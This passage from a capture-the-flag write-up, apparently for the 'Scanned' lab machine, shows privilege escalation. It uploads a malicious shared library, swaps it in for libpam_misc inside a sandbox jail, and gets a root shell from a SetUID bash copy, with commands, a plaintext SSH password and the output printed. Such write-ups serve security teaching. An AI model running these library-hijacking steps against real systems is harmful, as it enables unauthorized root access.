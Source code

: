 I’ll upload it to Scanned:

```

oxdf@hacky$ sshpass -p 'onedayyoufeellikecrying' scp setuidlib.so clarence@10.10.11.141:/dev/shm

```

#### Success

I’ll run again, updating `libpam_misc.so.0` with `setuidlib.so`:

```

clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam_misc.so.0; echo "copied libs"
[1] 124401
copied libs
/proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam_misc.so.0: no version information available (required by /proc/1/fd/3/../../../../../../../usr/bin/su)
su: user root does not exist or the user entry does not contain all the required fields
Exited
Kill err: (3)

```

The results look good! It seems to have run. And `/tmp/0xdf` is now SetUID:

```

clarence@scanned:/var/www/malscanner/sandbox$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1234376 Sep  8 18:57 /tmp/0xdf

```

I’ll run it (remembering `-p` to not drop privs) and get a root shell:

```

clarence@scanned:/var/www/malscanner/sandbox$ /tmp/0xdf -p
0xdf-5.1# id
uid=1000(clarence) gid=1000(clarence) euid=0(root) groups=1000(clarence)

```

And `root.txt`:

```

0xdf-5.1# cat /root/root.txt
ba0f4c36************************

```